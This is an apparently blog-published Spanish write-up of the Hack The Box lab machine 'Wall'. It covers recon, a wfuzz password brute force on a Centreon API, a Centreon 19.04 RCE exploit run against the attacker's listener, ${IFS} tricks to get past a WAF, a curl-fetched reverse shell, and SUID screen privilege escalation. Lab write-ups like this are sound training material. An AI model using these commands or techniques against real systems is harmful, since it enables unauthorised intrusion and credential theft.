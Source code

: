 ```yaml
---
layout: single
title: HTB-Wall
excerpt: "WriteUp con metodología de la máquina Wall."
date: 2021-12-28
classes: wide
header:
  icon: /assets/images/hackthebox.webp
  teaser_home_page: true
  teaser: /assets/images/WriteUps/Wall.png
categories:
  - WriteUps
tags:
  - HTB

---
```



<center><img src='/assets/images/WriteUps/Wall.png'></center>

IP -> 10.10.10.157

# Reconocimiento
## Nmap
Utilizamos [nmap](/Nmap/) y obtenemos los siguientes resultados.

[Wall Nmap Result](/assets/files/WriteUps/Wall.txt)

## http
### whatweb
Utilizamos la herramienta [whatweb](/whatweb/) para enumerar información del servicio http. Pero no obtenemos información relevante.

### http-enum
Mediante el script [http-enum](/Nmap/) fuzzeamos el servicio web.

### Fuzzing
Fuzzeamos el servicio http con herramientas como [wfuzz](/wfuzz/) o [gobuster](/gobuster/). Y obtenemos los siguientes resultados.

> monitoring -> 401 -> Probamos credenciales por defecto.

Pero no conseguimos nada.

### curl

- **Cambiamos tipo de petición a POST**

```bash
curl -s -X POST "http://10.10.10.157/monitoring -L
```
 
Descubrimos una ruta nueva

> /centreon

### Browser
Panel de inicio de sesión. "Centreon". Buscamos "Centreon default password" pero las credenciales que encontramos no sirven.
Podemos buscar a ver si tiene una API, para realizar pruebas. Encontramos una api

> /centreon/api/index.php

Realizamos un ataque de fuerza bruta sobre la api con [wfuzz](/wfuzz/)

### wfuzz bruteforce
```bash 
wfuzz -c -t 200 --hc=404 --hh=17 -w /usr/share/seclists/darkweb2017-top10000.txt -d 'username=admin&password=FUZZ' "http://10.10.10.157/centreon/api/index.php?action=authenticate"
```

> USER:: admin
> PASS: password1

### Browser
Iniciamos sesión con las credenciales válidas en /centreon

Vamos al panel de about para ver que vesión es.

> Version: 19.04

Con **searchsploit** vemos que tiene una vulnerabilidad de RCE.

# Exploitation
```bash
python centreon.py 'http://10.10.10.157/centreon' admin password1 10.10.14.13 443 2>/dev/null
```

Nos ponemos en escucha con **nc**.
```bash
nc -nlvp 443
```

Pero en un primer momento no funciona. 

- Analizamos el script.

Vemos una ruta, en la que crea un "poller" y la inyección la realiza en el campo "nagios_bin". Que es el campo "Monitoring Engine Binary". 

- Realizamos el proceso manualmente.

Nos devuelve un 403 Forbidden. Puede que halla un WAF.

- Modificamos el script para que funcione como un RCE, cada uso. 
- Probamos diferentes payloads, y nos damos cuenta que el ' ' no le gusta.

[ ! ] En bash el ' ' también se puede poner como '${IFS}'

- Nos funciona.
- Nos enviamos una reverse shell "sin usar espacios" (con un index.html y jugando con pipes y curl) 

> Recibimos el GET pero no la reverse shell

- Dividimos el comando en 2, primero descargando el archivo a una ruta y después ejecutándolo con bash.

> Tenemos reverse shell.


# PrivEsc
## OS
```bash
cd /home
ls
cd shelby
ls
cat user.txt
```

> No podemos leer el user.txt
> Vemos un html.zip

Vamos a traernos el **html.zip** para analizarlo en nuestra máquina.

```bash
7z x html.zip
cd html
grep -r -i "pass"
```

Pero no encontramos nada.
- Seguimos analizando la máquina víctima.

```bash
id
cd / 
find \-perm -4000 2>/dev/null
```

> screen-4.5.0 es SUID, y es vulnerable a privilege escalation.

Con **searchploit** descargamos es script en bash, lo subimos a la máquina víctima ya que cuenta con **gcc**. Lo ejecutamos y somos root.

```bash
cat /home/shelby/user.txt
cat /root/root.txt
```

> user.txt
> root.txt


---

Escrito el 28-12-2021 a las 07:42 pm por creep33.

